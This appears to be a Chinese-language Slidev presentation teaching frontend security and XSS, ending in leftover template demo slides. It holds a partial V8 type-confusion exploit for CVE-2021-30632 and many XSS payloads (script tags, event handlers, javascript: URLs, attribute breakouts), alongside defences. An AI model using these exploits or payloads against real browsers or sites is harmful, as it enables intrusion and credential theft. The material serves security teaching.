




---
# You can also start simply with 'default'
theme: seriph
# random image from a curated Unsplash collection by Anthony
# like them? see https://unsplash.com/collections/94734566/slidev
background: https://cover.sli.dev
# some information about your slides (markdown enabled)
title: 'Frontend Security: An Introduction to XSS'
info: |
  ## Frontend Security: An Introduction to XSS
  - speaker：Monica
  - date：2024.10.29
  - Presentation at: Langlive Tech Sharing

author: Monica
# apply unocss classes to the current slide
class: text-center
highlighter: shiki
lineNumbers: true
# https://sli.dev/features/drawing
drawings:
  persist: false
# slide transition: https://sli.dev/guide/animations.html#slide-transitions
transition: slide-left
# enable MDC Syntax: https://sli.dev/features/mdc
mdc: true
# take snapshot for each slide in the overview
overviewSnapshots: true
fonts:
  # basically the text
  sans: Robot Noto Sans
  # use with `font-serif` css class from UnoCSS
  serif: Robot Noto Serif
  # for code blocks, inline code, etc.
  mono: Fira Code
---

# Frontend Security: An Introduction to XSS
## aka 《Beyond XSS：探索網頁前端資安宇宙》 Ch1 讀書筆記

<div class='mt-6'>
<p>speaker：Monica</p>
<p>2024.10.29 @Langlive Tech Sharing</p>
</div>


<!--
The last comment block of each slide will be treated as slide notes. It will be visible and editable in Presenter Mode along with the slide. [Read more in the docs](https://sli.dev/guide/syntax.html#notes)
-->

<style>
  h2{
    @apply text-light-700;
  }
  .slidev-layout p{
    margin-top: 0px;
    margin-bottom: 0.5rem;
    opacity: 0.6;
  }
</style>

---

```yaml
transition: slide-left
```

# 瀏覽器的安全模型

- 網頁前端程式在瀏覽器執行
  - 瀏覽器負責 render HTML、解析 CSS、執行 JavaScript
- 作業系統->應用程式（瀏覽器）-> 網頁前端 JavaScript
  - 越內層限制越多
  **（待補圖）**

- 前端做不到某些事，不是開發者不想做，是瀏覽器不允許

> 瀏覽器不給你的，你拿不到，拿不到就是拿不到

<!--
You can have `style` tag in markdown to override the style for the current page.
Learn more: https://sli.dev/features/slide-scope-style
-->


<!--
Here is another comment.
-->

---

```yaml
transition: slide-up
level: 2
```

# 瀏覽器的安全限制：禁止「主動」讀寫本機的檔案

- 後端：程式在作業系統上執行，想做什麼都可以（沒特別限制的話）
- 前端：
  - 不能「主動」讀寫電腦裡面的檔案
  - 可以「被動」讀取檔案
<div class='ml-6'>
```js
// ⛔ 不能「主動」讀寫檔案
fetch('file:///data/index.html')
window.open('file:///data/index.html')
```
</div>
<div class='ml-6'>
```html {*}{maxHeight:'100px'}
<!-- ✅ 可被動由使用者透過 input 選檔案後，再用 FileReader 讀取檔案內容 -->
<input type="file" onchange="show(this)">

<script>
function show(input) {
  const reader = new FileReader();
  reader.onload = (event) => {
    alert(event.target.result);
  };
  reader.readAsText(input.files[0]);

}
</script>
```
</div>

- 如果瀏覽器可以主動讀寫檔案，會…?
- 漏洞案例：[Bug Bounty Guest Post: Local File Read via Stored XSS in The Opera Browser](https://blogs.opera.com/security/2021/09/bug-bounty-guest-post-local-file-read-via-stored-xss-in-the-opera-browser/)
  - 筆記頁網址「`opera:pinboards`」屬特殊協定，可開啟 `file://` 網頁、執行網頁截圖

<!-- 
-> 可利用 XSS 程式碼開啟本機檔案、截圖，再傳到攻擊者伺服器 
-->

---

```yaml
transition: fade-out
```

# 瀏覽器安全限制：禁止呼叫系統 API

- 瀏覽器提供的 API，前端可以用
  - ✅ `fetch` 發請求
  - ✅ [Web Bluetooth API](https://developer.mozilla.org/zh-CN/docs/Web/API/Web_Bluetooth_API) 藍芽應用
  - ✅ [MediaDevices](https://developer.mozilla.org/zh-CN/docs/Web/API/MediaDevices) 取得麥克風攝影機
  > 同時實作權限管理，要使用者主動允許權限，網頁才能取得

- 瀏覽器沒提供的系統 API，前端無法用
  - 前端無法修改系統、網路設定
  - 不是 JavaScript 做不到，JavaScript 只是語言，是執行環境瀏覽器沒提供 API


---

```yaml
transition: slide-up
```
# 瀏覽器安全限制：禁止存取其他網頁的內容
> 一個網頁永遠不該有權限存取到其他網頁內容
- 同源政策（[same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy), SOP）：每個網頁只有針對自己的權限
  - 可以改自己的 HTML、執行自己的 JavaScript
  - 不該取得其他網頁的資料
- 不只是其他網頁內容，連網址都不行
<div class='ml-6'>
```js
// 如果在 github.com 的 console 執行...?
var win = window.open('https://www.goplayone.com/')
setTimeout(() => {
  console.log(win.location.href)
}, 3000)
```
</div>

- 漏洞案例：Google Project Zeror 團隊發表的漏洞 Meltdown 與 Specture
  - 問題：可透過 CPU 缺陷存取同一個 process 資料
  - 解法：Chrome 調整架構，不同網頁無論用什麼方式載入(e.g. 圖片、iframe)，都用不同 process 處理
    - -> [Site Isolation](https://www.chromium.org/Home/chromium-security/site-isolation/)

---

```yaml
transition: fade-out
```
# 瀏覽器安全限制：禁止存取其他網頁的內容
- 漏洞案例：[Issue 1359122: Security: SOP bypass leaks navigation history of iframe from other subdomain if location changed to about:blank](https://issues.chromium.org/issues/40060755)
  - 問題：可透過 `iframe` 讀取另一個 cross-origin 頁面的網址
    - 現在的網址是 `a.example.com`，裡面有個 `iframe` 網址是 `b.example.com`
    - `frames[0].location = 'about:blank'` 將 `iframe` 重導向後，`iframe` 就會跟 `a.example.com` 同 origin
    - 此時去讀 `iframe` 歷史紀錄 `frames[0].navigation.entries()`，可拿到 `b.example.com` 網址
    - 🔺 iframe 重導向後，`navigation.entries()` 就該清空
  - 讀到網址會有什麼問題？
    **（待補圖）**

---

```yaml
transition: slide-left
```

# 嚴重漏洞：RCE
- 遠端程式碼執行（Remote Code Execution, RCE）
  - 如：打開 `https://blog.huli.tw/` 讀文章後關掉，但部落格的 JavaScript 利用 RCE 漏洞對電腦下指令
- 漏洞案例：CVE-2021-30632
  - 問題：只要用 Chrome（v93 前）打開網頁，攻擊者即可入侵電腦並執行指令
  - 漏洞原理：利用 JavaScript V8 引擎為改善效能的 bug
    - V8 會做些改善效能的事，如：直接編譯經常執行的程式碼，之後直接執行編譯後的程式碼

<div class='ml-12'>
```js
// 此程式被優化(編譯)過，以組合語言方式思考
function oobRead(){
    return x[20];
}

// 如果 x 是 double 型別陣列，每個 double 8 個 byte，oobRead 會固定去取 x + 20*8 這記憶體位置的內容(也就是 x + 160)
// 如果 x 是長度 30 的 int 陣列，總長度是 4*30 = 120，那 x+160 就超出位置，讀到不該讀取的記憶體位置 -> OOB read(Out-Of-Bounds read)
```
</div>

<!-- V8 引擎會做些改善效能的事，舉例來說，add 函式總是接收兩參數，參數總是正整數，V8 可能將函式編譯成 machine code；當參數不符假設時再退回以前執行方式 -->


---

```yaml
transition: fade-out
```

# 嚴重漏洞：RCE
- 漏洞案例：CVE-2021-30632
  - 如何利用這漏洞？
    - 讓 V8 認為傳入的 x 一定是 double，編譯成固定讀 `x + 160`，但實際 x 是 int，佔的空間比 `160` 小
      - -> 混淆型態(Type Confusion)，達到讀取/寫入超出範圍的記憶體位置
    - 搭配 [WebAssembly](https://developer.mozilla.org/en-US/docs/WebAssembly/Concepts) 特性，把編譯過的 WebAssembly 蓋掉，替換為任意程式碼 -> 任意程式碼執行
  - 漏洞的程式碼[連結](https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html)

<div class='ml-6'>
```js{*}{maxHeight:'230px'}
// 用來觸發 garbage collection 用的
function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

// 為了觸發 bug 做的前置準備
var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();

var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

// 讓 V8 去最佳化 foo
for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

// 讓 V8 去最佳化 oobRead 這函式
// 此時 V8 認為 oobRead 裡面的 x 一定是 double 型別
for (let i = 0; i < 20000; i++) {
  oobRead();
}

// 讓 V8 去最佳化 oobWrite 這函式
for (let i = 0; i < 20000; i++) oobWrite(1.1);

// 利用漏洞讓 x 變回 int，但 V8 仍認為 x 是 double
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;

// 讀取到不該讀取的記憶體位置
var addrs = oobRead();
```
</div>

---

```yaml
transition: fade-out
```

# XSS 是什麼

- 全名 Cross-site scripting，簡稱 XSS
- （推測）誕生於 1999 年左右([ref](https://web.archive.org/web/20100723152801/http://blogs.msdn.com/b/dross/archive/2009/12/15/happy-10th-birthday-cross-site-scripting.aspx))
- XSS 代表攻擊者可以在其他人網站上執行 JavaScript 程式碼
- 範例
  - 瀏覽 `index.php?name=monica`，頁面出現：「Hello, monica」
  - 瀏覽 `index.php?name=<script>alert(1)</script>`，頁面內容變成 `Hello, <script>alert(1)</script>`
    - `<script>` 會被當成 JavaScript 程式執行，頁面跳出 alert


<div class='ml-6'>
```php
<?php
 echo "Hello, " . $_GET['name'];
?>
```
</div>

---

```yaml
transition: slide-left
```

# 達成 XSS 會怎樣？
- 達成 XSS 可以...
  - 偷別人的 `localStorage`
  - 如果沒有設 HttpOnly 的 cookie，可用 `document.cookie` 拿到 cookie
  - 如果偷不到 cookie，可直接用 `fetch()` 呼叫 API，以受害者身分發請求

- 防範 XSS 案例：更改密碼時，要再輸入現在的密碼/敏感操作要輸入第二組密碼


---

```yaml
transition: slide-up
```

# XSS 的來源與分類
- 為何有 XSS 問題？
  - 因為直接在頁面顯示使用者輸入，使用者可藉機輸入惡意 payload 植入 JavaScript 程式碼

分類 XSS，可從 payload 來源來分類：

#### 1. 內容是如何被放到頁面上的
- 從後端放上：如上 PHP 範例，攻擊者內容直接在後端輸出
  - 瀏覽器收到 HTML 時，裡面已有 XSS payload
- 從前端放上
<div class='ml-6'>
```html {*}{maxHeight:'120px'}
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
<!-- 可透過 index.html?name=<script>alert(1)</script> 植入想要的內容
從前端輸出內容，innerHTML 將 payload 新增到頁面

補充：innerHTML 注入的 <script> 不會有效果 -->
```
</div>

- 區分輸出方式：檢視網頁原始碼


---

```yaml
transition: view-transition
```

# XSS 的來源與分類

<br/>
分類 XSS，可從 payload 來源來分類：

#### 2. Payload 有沒有被儲存
- Payload 沒有被儲存
  - 如：直接拿 query string 內容呈現在頁面
    - 攻擊方式：點擊帶有 XSS 的連結
    - 攻擊對象：點擊的那個人
- Payload 有被儲存
  - 如：留言板/貼文插入 HTML，並帶有 `<script>`
    - 攻擊方式：插入 `<script>` 的留言
    - 攻擊對象：任何觀看這留言板/貼文的人
    - -> 可變成 wormable，擴大攻擊範圍

---

```yaml
transition: fade-out
```

# 其他 XSS 分類
- Self-XSS
  - 自己攻擊自己
    - 如：打開網頁開發者工具，自己貼上 JavaScript 程式碼
  - 只能攻擊到自己的 XSS
    - 如：個人資料的電話號碼輸入框有 XSS 漏洞
      - 只有在自己設定頁才看得到 `alert()`(跟其他漏洞串接後，可能別人就看得到)
- Blind XSS
  - XSS 在你看不到的地方以及不知道的時間點被執行
  - 如：電商平台每個欄位都沒 XSS 漏洞，但其實後台訂單資料有漏洞，可透過姓名欄位做 XSS
  - 測試方式：將 payload 改成會傳送封包的
  - 漏洞案例：[Blind Stored XSS Via Staff Name](https://hackerone.com/reports/948929)

---

```yaml
transition: slide-up
```

# 能夠執行 JavaScript 的方式
掌控 HTML 後，要怎麼執行 JavaScript？

#### `<script>` 標籤
- 容易被 [WAF(Web Application Firewall)](https://zh.wikipedia.org/zh-tw/%E7%B6%B2%E9%A0%81%E6%87%89%E7%94%A8%E7%A8%8B%E5%BC%8F%E9%98%B2%E7%81%AB%E7%89%86) 識別
- 在 `innerHTML` 情境下無效
  - 🔺 `innerHTML` 搭配 `iframe` 可執行 script

<div class='ml-6'>
```html
<!-- iframe srcdoc 屬性可放完整 HTML 表示 iframe 的內容
此 iframe 與當前頁 same-origin
將 <script> 放在 srcdoc 屬性內就會執行 -->

document.body.innerHTML = '<iframe srcdoc="&lt;script>alert(1)&lt;/script>"></iframe>'
```
</div>

---

```yaml
transition: fade-out
```
# 能夠執行 JavaScript 的方式
掌控 HTML 後，要怎麼執行 JavaScript？

#### 屬性中的 event handler (都會是 on 開頭)

- `onerror`
- `onload`
- `onfocus`
- `onblur`
- `onanimationend`
- `onclick`
- `onmouseenter`


```html {*}{maxHeight:'100px'}


<button onclick="alert(1)">click me</button>

<svg onload="alert(1)">
```

---

```yaml
transition: fade-out
```

# 能夠執行 JavaScript 的方式
掌控 HTML 後，要怎麼執行 JavaScript？

#### `javascript:` 偽協議


```html
<a href=javascript:alert(1)>Link</a>
```

<div class='note-block mt-12'>
補充：讓 a 連結點擊後沒反應的方式
```html
<a href=javascript:void(0)>Link</a>
```
</div>

<div class='note-block'>
補充：HTML 的簡寫
<br/>
- HTML 屬性的雙引號<code>"</code>不是必要，如果內容沒空格，可拿掉雙引號
<br/>
- HTML 標籤和屬性間空格可用 <code>/</code> 取代
```html
<svg/onload=alert(1)>
```
</div>

---

```yaml
transition: slide-up
```

# 不同情境的 XSS 以及防禦方式

> 注入點：可以植入 payload 的地方

#### 注入 HTML
- 範例
  - 可直接寫入任何想要元素
<div class='ml-6'>
```php
<?php
 echo "Hello, <h1>" . $_GET['name'] . '</h1>';
?>
```
```html
<div>
  Hello, <span id="name"></span>
</div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const name = qs.get('name')
  document.querySelector('#name').innerHTML = name
</script>
```
</div>

- 防禦方法：編碼 `<` 和 `>`

---

```yaml
transition: fade-out
```

# 不同情境的 XSS 以及防禦方式

#### 注入屬性
- 範例（[demo](https://cdpn.io/pen/debug/qBejjaq?authentication_hash=PBrNWpNGYgNA)）
  - 先跳脫屬性、關閉標籤後再加入新標籤：`">`
  - 跳脫屬性，加入 event handler：`" tabindex=1 onfocus="alert(1)" x="`

<div class='ml-6'>
```html {*}{maxHeight:'60px'}
<div id="content"></div>
<script>
  const qs = new URLSearchParams(window.location.search)
  const clazz = qs.get('clazz')
  document.querySelector('#content').innerHTML = `
    <div class="${clazz}">
      Demo
    </div>
  `
</script>
```
</div>

- 防禦方法
  - 編碼 `<>"'`
  - 避免寫出沒有用引號包住的屬性
    - 屬性沒有用引號包住，即使編碼 `<>"'` ，還是可用空格新增屬性（[demo](https://codepen.io/qpozkvnr-the-selector/pen/bGXRRaz)）

<div class='ml-6'>
```js {3}{maxHeight:'60px'}
// ⛔ 不要這樣寫
document.querySelector('#content').innerHTML = `
  <div class=${clazz}>
    Demo
  </div>
`
```
</div>


---

```yaml
transition: fade
```

# 不同情境的 XSS 以及防禦方式

#### 注入 JavaScript
- 使用者的輸入反映在 JavaScript 內（使用者輸入不可換行）

<div class='ml-6'>
```html {*}{maxHeight:'100px'}
<!-- 可在 name payload 加入 </script> 提前關閉標籤，再加上其他標籤 -->
<script>
  const name = "<?php echo $_GET['name'] ?>";
  alert(name);
</script>
```
</div>

- 用 template string 處理使用者輸入（使用者輸入可換行）

<div class='ml-6'>
```html {*}{maxHeight:'100px'}
<!-- 可在 name payload 加入 ${alert(1)} 來攻擊 -->
<script>
  const name = `
    Hello,
    <?php echo $_GET['name'] ?>
  `;
  alert(name);
</script>
```
</div>

- 防禦方法
  - 編碼 `<>"'`
  - 對 template string 要謹慎

---

```yaml
transition: slide-up
```

# 什麼是 javascript: 偽協議

- 真協議如：`HTTP`、`HTTP`、`FTP`
- 偽協議如：`mailto:`、`tel:`、`javascript:`
  - `javascript:` 偽協議可用來執行 JavaScript

- 哪裡可用 `javascript:` 偽協議？

<div class='ml-6'>
```html {*}{maxHeight:'220px'}
<!-- 點擊後觸發 -->
<a href=javascript:alert(1)>Link</a>

<!-- 不用任何操作就會觸發 -->
<iframe src=javascript:alert(1)></iframe>

<!-- 點擊後觸發 -->
<form action=javascript:alert(1)>
  <button>submit</button>
</form>

<!-- 點擊後觸發 -->
<form id=f2>
</form>
<button form=f2 formaction=javascript:alert(2)>submit</button>
```
</div>

---

```yaml
transition: view-transition
```

# javascript: 的危險性
> `javascript:`很危險，因常被忽略、應用上常被使用

- 範例：填入 Youtube 影片網址，在文章自動嵌入
<div class='ml-6'>
```html
<!-- 把 javascript:alert(1) 當作 YouTube 網址填入，就是 XSS 漏洞 -->
<iframe src="<?= $youtube_url ?>" width="500" height="300"></iframe>
```
</div>

- 範例：在 profile 填入部落格網址並加上超連結
  - 實際案例：[Hahow 漏洞](https://zeroday.hitcon.org/vulnerability/ZD-2020-00903)
- 前端框架的防禦措施
  - ✅ 一般會做好跳脫字元
    - 沒使用 React 的 `dangerouslySetInnerHTML` 或 Vue 的 `v-html`，不會有問題
  - 🔺 但不會防範 `href` （[demo](https://codesandbox.io/p/sandbox/xss-demo-javascript-in-react-lr7zyt)）
    - React v16.9 後會針對 `javascript:` 印出警告（[ref](https://github.com/facebook/react/issues/16592)），可能未來會針對 `javascript:` 跳錯，但目前還是會執行

---

```yaml
transition: fade
```

# javascript: 的危險性

- 補充案例：[Lexical](https://github.com/facebook/lexical) 曾有過處理連結時沒防禦 `javascript:` 的 [issue](https://github.com/facebook/lexical/issues/2806)
  - 目前防禦方式：用 `new URL` 來看 protocol 是否符合（[ref](https://github.com/facebook/lexical/blob/790b5161d2f15e22bc5d7037a2e2f5fca5795af7/packages/lexical-link/src/index.ts#L175-L186)）

<div class='ml-6'>
```js {*}{maxHeight:'300px'}
const SUPPORTED_URL_PROTOCOLS = new Set([
  'http:',
  'https:',
  'mailto:',
  'sms:',
  'tel:',
]);

// ...
sanitizeUrl(url: string): string {
  try {
    const parsedUrl = new URL(url);
    // eslint-disable-next-line no-script-url
    if (!SUPPORTED_URL_PROTOCOLS.has(parsedUrl.protocol)) {
      return 'about:blank';
    }
  } catch {
    return url;
  }
  return url;
}
```
</div>

---

# 頁面跳轉的風險
- 登入後重導向

```js {*}{maxHeight:'60px'}
const searchParams = new URLSearchParams(location.search)
window.location = searchParams.get('redirect')

// 問題：window.location 也可填入 javascript: 偽協議
```

- 漏洞案例：Matters News
  - 登入頁 XSS 嚴重性：可直接偷到 input 帳號密碼
  - 攻擊方式：寄送包含惡意連結的釣魚信，使用者點擊後進入合法網站並輸入帳密，登入後以 XSS 偷走帳密，再把使用者轉回首頁

```js {*}{maxHeight:'120px'}
/**
 * Redirect to "?target=" or fallback URL with page reload.
 *
 * (works on CSR)
 */

// 登入後呼叫 redirectToTarget
export const redirectToTarget = ({
  fallback = 'current',
}: {
  fallback?: 'homepage' | 'current'
} = {}) => {
  const fallbackTarget =
    fallback === 'homepage'
      ? `/` // FIXME: to purge cache
      : window.location.href
  const target = getTarget() || fallbackTarget

  window.location.href = decodeURIComponent(target)
}

// getTarget() 從 query string 拿出值，然後用 window.location.href = decodeURIComponent(target) 重新導向
// 如果登入網址是 https://matters.news/login?target=javascript:alert(1)，登入後執行轉導時就會跳出 alert
```

<div class='note-block'>
補充：可用 <code>curl</code> 檢查短網址的目的地
</div>

---
layout: two-cols
layoutClass: gap-16
---

# Table of contents

You can use the `Toc` component to generate a table of contents for your slides:

```html
<Toc minDepth="1" maxDepth="1"></Toc>
```

The title will be inferred from your slide content, or you can override it with `title` and `level` in your frontmatter.

::right::

<Toc v-click minDepth="1" maxDepth="2"></Toc>

---
layout: image-right
image: https://cover.sli.dev
---

# Code

Use code snippets and get the highlighting directly, and even types hover!

```ts {all|5|7|7-8|10|all} twoslash
// TwoSlash enables TypeScript hover information
// and errors in markdown code blocks
// More at https://shiki.style/packages/twoslash

import { computed, ref } from 'vue'

const count = ref(0)
const doubled = computed(() => count.value * 2)

doubled.value = 2
```

<arrow v-click="[4, 5]" x1="350" y1="310" x2="195" y2="334" color="#953" width="2" arrowSize="1" />

<!-- This allow you to embed external code blocks -->
<<< @/snippets/external.ts#snippet

<!-- Footer -->

[Learn more](https://sli.dev/features/line-highlighting)

<!-- Inline style -->
<style>
.footnotes-sep {
  @apply mt-5 opacity-10;
}
.footnotes {
  @apply text-sm opacity-75;
}
.footnote-backref {
  display: none;
}
</style>

<!--
Notes can also sync with clicks

[click] This will be highlighted after the first click

[click] Highlighted with `count = ref(0)`

[click:3] Last click (skip two clicks)
-->

---
level: 2
---

# Shiki Magic Move

Powered by [shiki-magic-move](https://shiki-magic-move.netlify.app/), Slidev supports animations across multiple code snippets.

Add multiple code blocks and wrap them with <code>````md magic-move</code> (four backticks) to enable the magic move. For example:

````md magic-move {lines: true}
```ts {*|2|*}
// step 1
const author = reactive({
  name: 'John Doe',
  books: [
    'Vue 2 - Advanced Guide',
    'Vue 3 - Basic Guide',
    'Vue 4 - The Mystery'
  ]
})
```

```ts {*|1-2|3-4|3-4,8}
// step 2
export default {
  data() {
    return {
      author: {
        name: 'John Doe',
        books: [
          'Vue 2 - Advanced Guide',
          'Vue 3 - Basic Guide',
          'Vue 4 - The Mystery'
        ]
      }
    }
  }
}
```

```ts
// step 3
export default {
  data: () => ({
    author: {
      name: 'John Doe',
      books: [
        'Vue 2 - Advanced Guide',
        'Vue 3 - Basic Guide',
        'Vue 4 - The Mystery'
      ]
    }
  })
}
```

Non-code blocks are ignored.

```vue
<!-- step 4 -->
<script setup>
const author = {
  name: 'John Doe',
  books: [
    'Vue 2 - Advanced Guide',
    'Vue 3 - Basic Guide',
    'Vue 4 - The Mystery'
  ]
}
</script>
```
````

---

# Components

<div grid="~ cols-2 gap-4">
<div>

You can use Vue components directly inside your slides.

We have provided a few built-in components like `<Tweet/>` and `<Youtube/>` that you can use directly. And adding your custom components is also super easy.

```html
<Counter :count="10" />
```

<!-- ./components/Counter.vue -->
<Counter :count="10" m="t-4" />

Check out [the guides](https://sli.dev/builtin/components.html) for more.

</div>
<div>

```html
<Tweet id="1390115482657726468" />
```

<Tweet id="1390115482657726468" scale="0.65" />

</div>
</div>

<!--
Presenter note with **bold**, *italic*, and ~~striked~~ text.

Also, HTML elements are valid:
<div class="flex w-full">
  <span style="flex-grow: 1;">Left content</span>
  <span>Right content</span>
</div>
-->

---
class: px-20
---

# Themes

Slidev comes with powerful theming support. Themes can provide styles, layouts, components, or even configurations for tools. Switching between themes by just **one edit** in your frontmatter:

<div grid="~ cols-2 gap-2" m="t-2">

```yaml
---
theme: default
---
```

```yaml
---
theme: seriph
---
```


</div>

Read more about [How to use a theme](https://sli.dev/guide/theme-addon#use-theme) and
check out the [Awesome Themes Gallery](https://sli.dev/resources/theme-gallery).

---

# Clicks Animations

You can add `v-click` to elements to add a click animation.

<div v-click>

This shows up when you click the slide:

```html
<div v-click>This shows up when you click the slide.</div>
```

</div>

<br>

<v-click>

The <span v-mark.red="3"><code>v-mark</code> directive</span>
also allows you to add
<span v-mark.circle.orange="4">inline marks</span>
, powered by [Rough Notation](https://roughnotation.com/):

```html
<span v-mark.underline.orange>inline markers</span>
```

</v-click>

<div mt-20 v-click>

[Learn more](https://sli.dev/guide/animations#click-animation)

</div>

---

# Motions

Motion animations are powered by [@vueuse/motion](https://motion.vueuse.org/), triggered by `v-motion` directive.

```html
<div
  v-motion
  :initial="{ x: -80 }"
  :enter="{ x: 0 }"
  :click-3="{ x: 80 }"
  :leave="{ x: 1000 }"
>
  Slidev
</div>
```

<div class="w-60 relative">
  <div class="relative w-40 h-40">
    
    
    
  </div>

  <div
    class="text-5xl absolute top-14 left-40 text-[#2B90B6] -z-1"
    v-motion
    :initial="{ x: -80, opacity: 0}"
    :enter="{ x: 0, opacity: 1, transition: { delay: 2000, duration: 1000 } }">
    Slidev
  </div>
</div>

<!-- vue script setup scripts can be directly used in markdown, and will only affects current page -->
<script setup lang="ts">
const final = {
  x: 0,
  y: 0,
  rotate: 0,
  scale: 1,
  transition: {
    type: 'spring',
    damping: 10,
    stiffness: 20,
    mass: 2
  }
}
</script>

<div
